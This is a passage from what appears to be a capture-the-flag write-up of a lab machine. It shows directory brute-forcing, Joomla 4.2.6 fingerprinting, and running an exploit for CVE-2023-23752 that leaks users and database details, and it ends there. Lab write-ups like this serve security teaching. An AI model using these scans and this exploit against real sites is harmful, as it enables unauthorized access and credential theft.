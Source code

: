 ```
$ feroxbuster --url <http://dev.devvortex.htb/> --smart -t 20 -w ~/git/red_tools/SecLists/Discovery/Web-Content/raft-medium-directories.txt -o ferox-dev_subd.log --redirects -C 404

200      GET        1l        2w       31c <http://dev.devvortex.htb/modules/>
200      GET        1l        2w       31c <http://dev.devvortex.htb/images/>
200      GET        1l        2w       31c <http://dev.devvortex.htb/cache/>
200      GET        1l        2w       31c <http://dev.devvortex.htb/language/>
200      GET        1l        2w       31c <http://dev.devvortex.htb/components/>
200      GET        1l        2w       31c <http://dev.devvortex.htb/plugins/>
200      GET        1l        2w       31c <http://dev.devvortex.htb/tmp/>
200      GET        1l        2w       31c <http://dev.devvortex.htb/templates/>
200      GET        1l        2w       31c <http://dev.devvortex.htb/includes/>

[...]
```

This scan winds up returning an `/administrator/` endpoint, which is always very interesting. The contents of this endpoint indicate the web application is running a Joomla! CMS under the hood:

![Untitled](/img/devvortex_img/Untitled.png)

This means we can run `droopescan` to gather some more information; we know the server is running Joomla! version `4.2.6`, as indicated by the document at the
`/administrator/manifests/files/joomla.xml` endpoint:

```bash
$ ./droopescan scan joomla --url <http://dev.devvortex.htb>                                                                                                                                                       ✭
[+] No version found.

[+] Possible interesting urls found:
    Detailed version information. - <http://dev.devvortex.htb/administrator/manifests/files/joomla.xml>
    Login page. - <http://dev.devvortex.htb/administrator/>
    License file. - <http://dev.devvortex.htb/LICENSE.txt>
    Version attribute contains approx version - <http://dev.devvortex.htb/plugins/system/cache/cache.xml>

[+] Scan finished (0:00:00.860053 elapsed)
```

## Initial SSH access

This Joomla! version is susceptible to CVE-2023-23752, an unauthenticated information disclosure vulnerability, allowing unauthorized access to sensitive information. We can exploit this to gain
access to the CMS as a superuser with `lewis@devvortex.htb`'s credentials:

```bash
$ ruby exploit.rb <http://dev.devvortex.htb>
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
```